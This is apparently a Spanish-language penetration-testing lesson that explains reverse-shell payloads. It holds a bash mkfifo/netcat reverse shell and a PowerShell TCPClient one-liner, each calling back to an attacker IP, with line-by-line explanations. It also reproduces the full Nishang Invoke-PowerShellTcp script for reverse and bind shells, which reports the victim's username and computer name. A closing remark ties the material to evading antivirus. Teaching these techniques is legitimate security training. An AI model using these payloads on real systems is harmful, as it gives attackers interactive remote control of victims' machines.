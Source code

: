 
### Análisis de Comandos de Una Línea (One-Liners)
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f

```
- ==`rm -f /tmp/f;`== Elimina el archivo `/tmp/f` si existe. La opción `-f` hace que `rm` ignore archivos inexistentes. El punto y coma (`;`) se usa para ejecutar el comando secuencialmente.
- ==`mkfifo /tmp/f;`==  Crea un archivo de pipe FIFO nombrado en la ubicación especificada, en este caso `/tmp/f`. El punto y coma (`;`) se usa para ejecutar el comando secuencialmente.
* ==`cat /tmp/f |`==  Concadena el archivo de pipe FIFO `/tmp/f`. La tubería (`|`) conecta la salida estándar de `cat /tmp/f` a la entrada estándar del comando siguiente.
* ==`/bin/bash -i 2>&1 |`== Especifica el intérprete de comandos usando la opción `-i` para asegurar que la shell sea interactiva. `2>&1` redirige el flujo de datos de error estándar (2) y el flujo de salida estándar (1) al comando que sigue.
* ==`nc 10.10.14.12 7777 > /tmp/f`== - Usa Netcat para enviar una conexión a nuestro host de ataque `10.10.14.12` que escucha en el puerto `7777`. La salida se redirige (`>`) a `/tmp/f`, sirviendo la shell Bash a nuestro listener Netcat en espera cuando se ejecuta el comando de reverse shell.

### Explicación de un Comando de PowerShell de Una Línea
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
* ==`powershell -nop -c `== Ejecuta PowerShell sin perfil (`-nop`) y ejecuta el bloque de comandos (`-c`) contenido en las comillas.
* ==`"$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);`== Crea una instancia del objeto `TCPClient` que se conecta al socket TCP en la dirección y puerto especificados.
* ==`$stream = $client.GetStream();`== Establece una variable `$stream` que utiliza el método `GetStream` para facilitar la comunicación de red.
* ==`[byte[]]$bytes = 0..65535|%{0};`== Crea un array de bytes llamado `$bytes` con 65,535 ceros como valores.
* ==`while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`== Inicia un bucle `while` que contiene la variable `$i` que se establece como el método `$stream.Read`.
* ==`{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);`== Utiliza la clase `ASCIIEncoding` para convertir el flujo de bytes en texto ASCII.
* ==`$sendback = (iex $data 2>&1 | Out-String );`== Usa el cmdlet `Invoke-Expression` (iex) en la variable `$data`, redirigiendo errores y salida estándar a `Out-String` que convierte la salida en texto.
* ==`$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';`== Establece `$sendback2` como la combinación de `$sendback`, la cadena `PS`, y el directorio actual.
* ==`$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}`== Define `$sendbyte` como el flujo de bytes ASCII codificado, que será transmitido al listener de PowerShell en el equipo de ataque.
* ==`$client.Close()"`== Método `Close` del objeto `TCPClient`, utilizado al terminar la conexión.

### Los Payloads Toman Diferentes Formas
El siguiente es un ejemplo que puede ir incluido en un archivo .ps1.
#nishang
```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 
.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
        [Int]
        $Port,

        [Parameter(ParameterSetName="reverse")]
        [Switch]
        $Reverse,

        [Parameter(ParameterSetName="bind")]
        [Switch]
        $Bind

    )

    
    try 
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}
```


Entender lo que hacen los diferentes tipos de payloads puede ayudarnos a comprender por qué el antivirus bloquea su ejecución y nos da una idea de cómo modificar nuestro código para evadir restricciones. Esto es algo que exploraremos más en este módulo. Por ahora, comprende que los payloads que usamos para obtener una shell en un sistema dependerán en gran medida del sistema operativo, el intérprete de comandos y los lenguajes de programación presentes en el objetivo.

No todos los payloads son one-liners y se implementan manualmente, como los que estudiamos en esta sección. Algunos se generan utilizando marcos de ataque automatizados y se implementan como un ataque preempaquetado para obtener una shell. Tal es el caso del poderoso **Metasploit Framework**, que exploraremos en la próxima sección.






